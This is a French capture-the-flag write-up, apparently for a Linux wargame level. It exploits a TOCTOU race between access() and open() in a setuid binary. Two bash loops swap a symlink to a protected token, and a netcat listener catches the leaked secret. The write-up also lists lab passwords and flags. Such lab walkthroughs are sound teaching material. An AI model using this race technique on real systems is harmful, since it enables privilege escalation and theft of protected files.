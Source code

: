 # Level10

> login:password -> *`level10:s5cAJpM8ev6XHw998pRWG728z`*
```
:~$ su level10
Password:s5cAJpM8ev6XHw998pRWG728z
```
---

```
:~$ pwd
/home/user/level10
```

```
:~$ ls -la
...
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
...
```

Le Home contient un binaire et un fichier token :

```
:~$ ./level10
./level10 file host
  sends file to host if you have access to it

:~$ ./level10 token localhost
You don't have access to token

:~$ ./level10 .profile localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

L'usage nous indique que le binaire envoi un fichier, mais uniquement si on possède les droits sur ce dernier.
En regardant du côté de la commande `strings level10` :

```
...
Connecting to %s:6969 ..
...
open
...
access
...
```

On remarque que le programme se connecte sur le port `:6969` et utilise `open` et `access`.\
Nous pouvons dés lors, profiter d'une faille d'access afin d'y récupérer le token (On profite du temps qu'il prends entre le check des droits et l'ouverture du fichier. man access).\
Pour ce faire nous allons utiliser 2 scripts qui utilise la technique du 'spam' :

- 1er script - Qui va essayer d'envoyer le fichier /tmp/link sur le localhost (ici `192.168.56.101`)
```
#!/bin/bash
while true;
do
	~/level10 /tmp/link 192.168.56.101
done
```

- 2e script - Qui va supprimer le fichier /tmp/link sur le localhost, le créer et y faire un lien symbolique avec le token présent sur le Home.
```
#!/bin/bash
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	ln -fs ~/token /tmp/link
done
```

Il ne nous reste plus qu'à écouter les transfert avec la commande netcat `nc -lk` (`l` pour écouter & `k` pour conserver la connexion) sur le port de connexion `:6969`, pour obtenir le token.

```
:~$ nc -lk 6969
...
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
^C

```

Il nous suffit maintenant de nous connecter sur l'user `flag10` avec le résultat obtenu puis de lancer un `getflag`

```
:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !

:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

Le flag nous permet de se connecter au level11
`level11:feulo4b72j7edeahuete3no7c`